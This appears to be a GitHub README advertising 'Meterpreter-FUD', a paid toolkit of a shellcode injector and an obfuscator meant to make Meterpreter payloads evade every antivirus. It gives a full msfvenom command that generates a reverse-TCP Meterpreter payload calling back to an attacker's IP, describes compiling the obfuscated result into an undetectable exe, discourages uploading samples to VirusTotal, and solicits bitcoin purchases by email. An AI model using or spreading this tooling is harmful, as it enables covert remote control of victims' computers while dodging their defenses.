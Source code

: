 # Meterpreter-FUD
Toolkit to create a Fud meterpreter, which bypass every Anti-Virus.

![Antiscan](https://user-images.githubusercontent.com/126344954/221409544-93b34748-e6cd-4e35-9352-9fde25290df3.png)

The Toolkit has 2 scripts, A shellcode injector and a obfuscator, you have to generate the payload via Metersploit and this command:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f python

You put the shellcode into the shellcode.py file, then you run the main.py script and get a fud python script, which you can compile to a exe file

The output python script will always be different, because of the special obfuscator, so even if someone upload the script to virustotal, the new generated will not get detected. But pls dont upload ;) Only for LEGAL purposes!!!

Write an email to back-oor@proton.me to buy it, payments via bitcoin!
